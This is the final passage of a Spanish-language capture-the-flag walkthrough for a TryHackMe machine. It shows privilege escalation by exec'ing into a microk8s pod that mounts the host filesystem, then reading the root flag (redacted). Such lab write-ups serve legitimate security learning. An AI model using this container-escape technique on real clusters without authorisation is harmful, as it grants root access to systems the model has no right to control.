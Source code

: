     frank@dev-01:/tmp$ microk8s kubectl get pods
    NAME                                READY   STATUS    RESTARTS   AGE
    nginx-deployment-7b548976fd-77v4r   1/1     Running   2          655d
    esevka                              1/1     Running   0          12s


6)Elevamos privilegios en el nodo y obtenemos la flag del usuario root.

    frank@dev-01:/tmp$ microk8s kubectl exec esevka -it -- /bin/bash
    root@dev-01:/# cd host/root
    
    root@dev-01:/host/root# ls -la
    total 32
    drwx------  4 root root 4096 Oct 29  2021 .
    drwxr-xr-x 21 root root 4096 Oct 29  2021 ..
    lrwxrwxrwx  1 root root    9 Oct 29  2021 .bash_history -> /dev/null
    -rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
    -rw-r--r--  1 root root  161 Dec  5  2019 .profile
    drwx------  2 root root 4096 Oct  3  2021 .ssh
    -rw-------  1 root root  705 Oct 27  2021 .viminfo
    -rw-r--r--  1 root root   21 Oct 27  2021 root.txt
    drwxr-xr-x  5 root root 4096 Oct  3  2021 snap

    root@dev-01:/host/root# cat root.txt 
    THM{...}



---
---> Maquina Frank and Herby Make an App completa. <---
---
---
    





  
  
